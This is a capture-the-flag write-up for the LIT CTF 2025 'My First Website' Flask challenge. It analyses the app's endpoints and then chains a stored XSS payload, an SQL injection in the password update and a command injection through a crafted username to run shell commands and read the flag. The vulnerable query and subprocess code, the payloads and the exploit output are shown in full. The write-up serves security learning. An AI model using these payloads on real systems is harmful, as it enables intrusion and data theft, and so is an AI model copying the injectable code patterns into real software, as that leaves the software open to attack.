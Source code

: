 
# WhiteDukesDZ - LIT CTF 2025 Writeup: My First Website Challenge

![WhiteDukesDZ Logo](challenge/my-first-website.png)

We were also provided with the `app.py`, `schema.sql`, `init_db.py` file as part of this challenge.

---

## Challenge Summary

This challenge presented a simple Python Flask web application simulating a contact panel where users can report issues in comments. The goal was to analyze the application for vulnerabilities and exploit them to retrieve the flag.

## Provided Files
- `app.py` (Flask web app)
- `schema.sql` (The schema of SQL tables used by the web application)
- `init_db.py` (The python script that initialize the database with the tables provided in schema)

## Application Analysis

After reviewing `app.py`, we identified eight main endpoints:

1. **`/` (Home):**
    - If `username` is not set in the session, redirects to `/login`.
    - Otherwise, renders the main page with user own `comments`.

2. **`/login`:**
    - Accepts `GET` and `POST` requests.
    - On `GET`, renders the login form, the form have two inputs `name` and `password`.
    - On `POST`, verifies the existence of the `username` and `password` in database:
      - If the credentials are correct, redirects to `/`.
      - If the credentials are incorrect, redirects to `/login` and display `Invalid credentials` message.

3. **`/signup`:**
    - Accepts `GET` and `POST` requests.
    - On `GET`, renders the login form, the form have four inputs `name`, `email`, `password` and `confirm`.
    - On `POST`, verifies:
      - If `password` != `confirm`, redirects to `/signup` and display `passwords do not match` message.
      - If `username` already exists in database, redirects to `/signup` and display `user already exists` message.
    
    Otherwise, <ins>inserts the new user into the database without any further sanitizations</ins>, and redirects to `/login`

4. **`/contact`:**
    - Accepts only `POST` requests with `comment` in request body.
      - If `username` is not set in session, redirects to `/login`.
    
    Otherwise, <ins>inserts the new `comment` into the database without any further sanitizations</ins>, and shows the submission message.



5. **`/admin`:**
    - verifies if user is not admin, shows a `403` Error (Unauthorized).
    
    Otherwise, shows the admin page with <ins>all comments</ins> displayed. 

6. **`/updatePassword`:**
    - Accepts only `POST` requests with `newPassword` in request body.
      - verifies if user is not admin, shows a `403` Error (Unauthorized).
    
    Otherwise, update the currently connected user password to `newPassword` without any further sanitizations.

7. **`/resetDB`:**
    - Accepts only `POST` requests.
      - verifies if user is not admin, shows a `403` Error (Unauthorized).
    
    Otherwise, runs a shell command with current `username` that will reset the database and set the current user to admin.
      - If command fails, shows `DB RESET FAILED` message.
      - If command succeed shows `Success` message.

8. **`/logout`:**
    - Log out the currently connected user and redirects to `/`.

### Security Observations

- The `/contact` endpoint does not filter for XSS payloads in the `comment` field. For example, setting `comment` to `<script>alert('WhiteDukesDZ')</script>` will execute the JavaScript payload:

  ![WhiteDukesDZ Logo](demonstration/xss.png)

In the challenge description it is mentioned that <ins>the admin frequently checks the website.</ins> And because the `/admin` ednpoint shows all comments, we definetly can exploit this XSS vulnerability to make the admin perform malicious actions.

- The `/updatePassword` endpoint use a vulnerable SQL query to update password.

```python
cur.execute(f"UPDATE users SET password = '{newPassword}' WHERE username = '{session.get('username')}'")
```

This query is vulnerable to SQL injection.

- The `/resetDB` endpoint runs a shell command with user controlled input `username`. Meaning this endpoint is vulnerable to command injection.

```python
result = subprocess.run(f"python init_db.py {session.get('username')}", shell=True)
```

- There is no CSRF protection in `/updatePassword`, nor `/resetDB`. Meaning we can use that XSS vulnerability from `/contact` in order to make the admin exploit that SQL injection in `/updatePassword` and the command injection in `/resetDB`.
---

## Solution

Based on our Application Analysis and Security Observations, we can execute commands using this strategy:

- Create a new account with a malicious `username` that will contain the command we want to execute `username=; echo $(ls -al) > static/output.txt ;#`. If this `username` is used in the shell command that will run when accessing `/resetDB` it will result in this command being executed:

```python
result = subprocess.run(f"python init_db.py ; echo $(ls -al) > static/output.txt ;#", shell=True)
```

- Log In with our newly created user.

- Insert a malicious `comment` containing our XSS payload. We want a XSS payload that will result in admin exploiting the SQL Injection in `/updatePassword` to update our newly created user to `admin=1` in database. We can achieve that by making admin POST to `/updatePassword` with `newPassword=dummy', admin=1 WHERE admin=0--` this will result in this SQL query being executed:

```python
cur.execute(f"UPDATE users SET password = 'dummy', admin=1 WHERE admin=0--' WHERE username = '{session.get('username')}'")
```

So our final XSS payload will be:

```html
<script>
fetch("/updatePassword", {
  method: "POST",
  headers: {"Content-Type": "application/x-www-form-urlencoded"},
  body: "newPassword=dummy', admin=1 WHERE admin=0--"
});
</script>
```

- After the admin visits `/admin` the XSS payload gets executed, We access `/resetDB` with our newly created user (Since our newly created user will be admin).

- Verifies `/static/output.txt`, to see the output of our executed command.

We automated this process in `solution/solve.py`. To run the exploit against the remote instance provided by LIT CTF:

```sh
python3 solve.py <command_here>
```

If successful, the script will output the result of command execution:

```sh
┌──(s450r1㉿S450R1)-[~/…/lit-ctf-writeups/web/my-first-website/solution]
└─$ python3 solve.py "ls -a"
Account created successfully.
Logged in successfully.
Comment sent successfully.
Database reset successfully.
=== OUTPUT ===
. .. __pycache__ admin_bot.py admin_bot2.py app.py database.db entrypoint.sh error.log flag-9f8df47e-782d-4eec-be9a-1f80df3768e3.txt flask_session info.log init_db.py requirements.txt run.sh run_old.sh schema.sql static templates

┌──(s450r1㉿S450R1)-[~/…/lit-ctf-writeups/web/my-first-website/solution]
└─$ python3 solve.py "cat flag-9f8df47e-782d-4eec-be9a-1f80df3768e3.txt"
Account created successfully.
Logged in successfully.
Comment sent successfully.
Database reset successfully.
=== OUTPUT ===
LITCTF{us3rn4m3_1nj3c710n_7f62be7ddc0d597f}
```


